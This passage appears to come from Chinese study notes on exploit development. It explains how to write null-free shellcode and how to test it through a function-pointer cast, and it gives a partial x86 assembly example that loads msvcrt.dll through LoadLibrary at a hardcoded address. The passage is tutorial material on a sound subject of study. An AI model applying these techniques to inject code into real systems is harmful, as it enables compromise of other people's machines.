     <img alt="" src="./pic/vul_stack.jpg" width="30%" height="30%">

* shellcode
    1. 将机器码作为字符串保存到变量`sh`(不能包含`\x00`, 这样字符串会被截断, 可以用`xor eax, eax`代替含有操作数0的指令, 以生成0), 注意低位优先的系统中, 每条指令对应的字符串要倒序(如, `call eax` -> `D0FF` -> `"\xFF\xD0"`)
    2. `typedef void (*func)();`
    3. `((func) &sh)();`看shellcode能不能运行. 

    * shellcode例子

        ```x86asm
        mov esp,ebp ; 
		push ebp ;      
		mov ebp,esp ;                      把当前esp赋给ebp 
		xor edi,edi ;
		push edi ;压入0, esp－4,;   作用是构造字符串的结尾\0字符。
		sub esp, 08h
		mov byte ptr [ebp-0ch], 'm'
		mov byte ptr [ebp-0bh], 's'
		mov byte ptr [ebp-0ah], 'v'
		mov byte ptr [ebp-09h], 'c'
		mov byte ptr [ebp-08h], 'r'
		mov byte ptr [ebp-07h], 't'
		mov byte ptr [ebp-06h], '.'
		mov byte ptr [ebp-05h], 'd'
		mov byte ptr [ebp-04h], 'l'
		mov byte ptr [ebp-03h], 'l'
		lea eax, [ebp-0ch]
		push eax    ; 把字符串"msvcrt.dll"的地址压栈
		mov eax, 0x7c801d7b
		call eax    ; 调用LoadLibrary
